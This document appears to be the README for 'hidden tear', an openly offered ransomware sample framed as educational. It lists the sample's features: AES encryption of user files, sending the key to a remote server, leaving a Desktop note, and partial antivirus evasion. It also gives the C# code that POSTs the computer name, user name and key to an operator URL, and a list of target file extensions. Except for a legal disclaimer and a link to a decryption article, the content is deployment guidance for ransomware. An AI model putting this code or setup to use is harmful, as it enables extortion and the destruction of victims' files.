          _     _     _     _              _                  
        | |   (_)   | |   | |            | |                 
        | |__  _  __| | __| | ___ _ __   | |_ ___  __ _ _ __ 
        | '_ \| |/ _` |/ _` |/ _ \ '_ \  | __/ _ \/ _` | '__|
        | | | | | (_| | (_| |  __/ | | | | ||  __/ (_| | |   
        |_| |_|_|\__,_|\__,_|\___|_| |_|  \__\___|\__,_|_|   
                                                     
It's a ransomware-like file crypter sample which can be modified for specific educational purposes. 

**Features**
* Uses AES algorithm to encrypt files.
* Sends encryption key to a server.
* Encrypted files can be decrypt in decrypter program with encryption key.
* Creates a text file in Desktop with given message.
* Small file size (207 KB)
* Detected by 13/35 antivirus programs (1/08/2016) http://NoDistribute.com/result/yQI70xZO1RfCMjWBAD6tuNFsimLGT3

**Demonstration Video**

https://www.youtube.com/watch?v=LtiRISepIfs

**Usage**

* You need to have a web server where the info remains. Change this line with your URL. (You better use HTTPS for more security)

  `string targetURL = "http://localhost/info/index.php";`

* The script do the POST request to the server (targetURL). Sending process running in `SendPassword()` function

  ```
  
using (var client = new WebClient())
   {
       var values = new NameValueCollection();
       values["computerName"] = computerName;
       values["userName"] = userName;
       values["password"] = password;
       client.UploadValues(targetURL, "POST", values);
   }
   
  ```
* Example of target file extensions that can be changed:

```
var validExtensions = new[]{".txt", ".doc", ".docx", ".xls", ".xlsx", ".ppt", ".pptx", ".odt", ".jpg", ".png", ".csv", ".sql", ".mdb", ".sln", ".php", ".asp", ".aspx", ".html", ".xml", ".psd"};
```
**Article: Destroying The Encryption of Hidden Tear Ransomware** 

http://www.utkusen.com/blog/destroying-the-encryption-of-hidden-tear-ransomware.html

**Legal Warning** 

While this may be helpful for some, there are significant risks. hidden tear may be used only for Educational Purposes. Do not use it as a ransomware! You could go to jail on obstruction of justice charges just for running hidden tear, even though you are innocent.
